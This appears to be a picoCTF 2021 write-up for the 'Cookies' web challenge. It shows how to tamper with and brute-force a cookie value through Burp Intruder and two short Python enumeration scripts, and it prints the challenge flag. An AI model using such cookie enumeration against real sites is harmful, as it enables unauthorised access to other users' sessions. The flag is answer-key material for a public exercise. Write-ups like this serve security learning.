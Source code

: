 ### Cookies

Author: madStacks
#easy #web_exploitation #picoCTF2021 
#### Description

Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:64944/](http://mercury.picoctf.net:64944/)

##### Solution:
how to find cookies
![[web_browser_cookies.png]]

change the value of cookies
![[changeing_cookies_value.png]]

now use burpsute to get the flag 
position setting
![[intruder_attacking_type.png]]

set payload to numbers
![[attacking_payload.png]]

and add grep match picoCTF{  to indentify flag
![[grep_match_setting.png]]
here is flag

![[flag.png]]

flag is `picoCTF{3v3ry1_l0v3s_c00k135_cc9110ba}`
python code to get flag

```python
import requests

# Loop through a range of cookie values
for i in range(25):
    # Setting a different cookie value each time
    headers = {'Cookie': f'name={i}'}
    
    # Sending the GET request
    response = requests.get('http://mercury.picoctf.net:64944/check', headers=headers)
    
    # Printing the result for each cookie value
    print(f"Trying cookie name={i}")
    print(response.text)

    # Break the loop if the flag is found
    if 'picoCTF' in response.text:
        print("Flag found!")
        break
```

another python code
```python
#!/bin/python3
import requests

for i in range(25):
    # Show the current cookie being used
    print(f"Trying cookie value: {i}")
    
    cookie = 'name={}'.format(i)
    print(cookie)
    headers = {'Cookie': cookie}
    print(headers)
    # Make the request to the server
    r = requests.get('http://mercury.picoctf.net:64944/check', headers=headers)
    
    # Check if the response contains the flag
    if r.status_code == 200 and 'picoCTF' in r.text:
        print("Flag found!")
        print(r.text)
        break  # Exit loop once flag is found
    else:
        print(f"Status: {r.status_code}, No flag yet.")

```